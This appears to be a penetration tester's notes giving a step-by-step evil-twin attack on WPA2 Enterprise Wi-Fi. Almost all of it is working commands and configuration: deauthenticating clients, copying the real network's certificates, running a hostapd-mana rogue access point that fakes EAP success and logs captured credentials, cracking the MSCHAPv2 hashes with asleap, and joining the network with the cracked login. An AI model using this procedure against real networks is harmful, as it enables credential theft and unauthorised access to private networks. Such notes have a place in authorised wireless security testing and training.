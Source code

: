 
WPA2 Enterprise:

Look for WPA MGT network in airodump-ng.

```
airodump-ng -c <channel> -w <capture> wlan1mon
aireplay-ng -0 0 -a <BSSID_LEGITIMATE_AP> wlan1mon 
sudo airmon-ng stop wlan1mon
```

Grab certificate files from wireshark using filters:

```
wlan.bssid==XX:XX:XX:XX:XX:XX && eap && tls.handshake.certificate
wlan.bssid==XX:XX:XX:XX:XX:XX && eap && tls.handshake.type == 11,3
```

View Packet Details >> Extensible Authentication Protocol > Transport Layer Security > TLSv1 Record Layer: Handshake Protocol: Certificate

Save certificates to .der files: Right click cert string and click Export Packet Bytes. 

View SSL cert info:
```
openssl x509 -inform der -in CERTIFICATE_FILENAME -text
```

Use freeradius to provide fake cert to clients.

Alter certificate_authority block in /etc/freeradius/3.0/certs/ca.cnf:

```
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = New York
organizationName        = Company
emailAddress            = ca@company.com
commonName              = "Company Certificate Authority"
```

Alter server block in /etc/freeradius/3.0/certs/server.cnf:

```
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = New York
organizationName        = Company
emailAddress            = ca@company.com
commonName              = "Company Certificate Authority"
```

Change dir to /etc/freeradius/3.0/certs/ and run:

```
rm dh
#make destroy certs
make
```

An error occurs but it doesn't matter because we don't use any client certificates.

Setup hostapd-mana for the rogue AP using the following **UPDATED** mana.conf file in /etc/hostapd-mana/mana.conf:

```
# SSID of the AP
ssid=TheSSID

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=6
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

Use mana.eap_user file, move to /etc/hostapd-mana/mana.eap_user:

```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```

Start hostapd-mana:
```
hostapd-mana /etc/hostapd-mana/mana.conf
```
If needed, deauth stations.

Hostapd-mana will output asleap commands, find a user with a successful login (from wireshark traffic) and run command like so:

```
<asleap command> -W /usr/share/john/password.lst
```

Create wpa_supplicant.conf file:

```
network={
  ssid="NetworkName"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity="Domain\username"
  password="password"
  eap=PEAP
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}
```

Connect to network:

```
wpa_supplicant -i wlan0 -c <config file>
dhclient wlan0
```